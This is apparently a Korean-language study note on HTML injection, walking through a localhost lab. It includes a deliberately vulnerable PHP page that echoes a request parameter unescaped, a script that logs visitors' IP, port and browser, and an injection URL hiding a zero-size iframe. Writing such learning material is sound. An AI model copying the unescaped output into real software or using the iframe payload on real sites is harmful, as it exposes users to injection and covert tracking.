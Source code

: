 # HTML Injection (18.07.19) #

- 취약한 매개 변수에 악의적인 HTML을 삽입해 다른 동작(공격자가 원하는 동작)이 수행하도록 공격을 하는 기법.
- XSS 나 CSRF 공격을 이해하는 데 좋은 수단

> injection : 보내지 말아야 할 코드지만 실제 보냈을 때 필터링을 통과하는 것.



###   ! Html Injection 공격 개념 ! ###

![1532266545751](C:\Users\Yellme\AppData\Local\Temp\1532266545751.png)



http에서 공격자가 악의적인 html를 주입시키게 되면, 

단순한 html 태그가 서버로 전송되어 전혀 예상 외의 결과 값이 되돌아오게 된다. 

클라이언트는 특정 이벤트를 웹 서버로 보내고 서버는 이를 처리를 해 다시 클라이언트로 보낸다.

여기서, Get 방식이나 Post 방식으로 전송을 할 때 취약점을 통해 공격이 수행 되는 것이다.



------



## 간단한 공격실습 ##

실습을 하기 위해서 autoset이 필요하다.

[autoset](http://autoset.net/xe/download_autoset_9_0_0)다운을 받고 구글링해서 설정을 해준다음 따라하기로 한다.

![1532266855729](C:\Users\Yellme\AppData\Local\Temp\1532266855729.png)

실습은 브라우저 주소창에서 공격자가 url 로 ip 탈취 html를 주입하게 되면 

공격자가 클라이언트 정보를 얻게 된다는 내용이다.

먼저, C 드라이브에 있는 autoset 에 html폴더를 생성을 한 뒤

 이 실습에서 필요한 php 파일을 만든다.![1532267213500](C:\Users\Yellme\AppData\Local\Temp\1532267213500.png)

 < vul.php > 

```php+HTML
<?php
    $name = $_REQUEST ['name'];
?>
<html>
	<h1>Welcome to the Internet!</h1>
	<br>
	<body>
            Hello, <?php echo $name; ?>!
	    <p>We are so glad you are here!</p>
	</body>
</html>
```

vul.php 파일은 공격이 성공이 되었을 때 브라우저에 나타 날 내용이다

name='tset' 가 Get 방식으로 변수를 전송을 하고 html 문구를 넣어 특정 php를 인식 시킨다.



<ip.php>

```php
<?PHP
$ip_address;
$ip_address = $_SERVER['REMOTE_ADDR'];
$port = $_SERVER['SERVER_PORT'];
$agent = $_SERVER['HTTP_USER_AGENT'];
$time = time();

$log = $ip_address." , ".$port." , ".$agent." , ".$time;
$file = './log.txt';
file_put_contents($file, $log .PHP_EOL, FILE_APPEND);
?>
```

ip.php는 클라이언트의 ip , 포트, 브라우저 종류, 시간을 수집하여 서버에 로그로 기록을 해준다.



그리고 나서 log.txt 파일도 생성을 해준 뒤, 생성한 모든 파일을 html 폴더에 넣어준다.

모든 실습 준비가 되었으면 브라우저 주소창에 다음과 같이 적어준다.

```html
http://127.0.0.1/html/vul.php?name=test<iframe width=“0” height=“0” src=“http://127.0.0.1/html/ip.php”></ifame>
```

>  ifame 태그는 html 화면에 또 다른 html 창을 넣을 수 있는 태그이다.



저 url 를 치고 나면 다음과 같은 화면이 보일 것이다.

![1532267809690](C:\Users\Yellme\AppData\Local\Temp\1532267809690.png)



이 화면은 취약점 공격 화면이다

이제 html 폴더에 가서 log.txt 를 확인 해보면

![1532267918204](C:\Users\Yellme\AppData\Local\Temp\1532267918204.png)



이렇게 접속된 클라이언트의 ip 정보와 포트, 브러우저, 시간 정보를 획득했음을 확인 할 수 있다.



이로써 저어엉말 간단한 html injection 실습이 끝났다.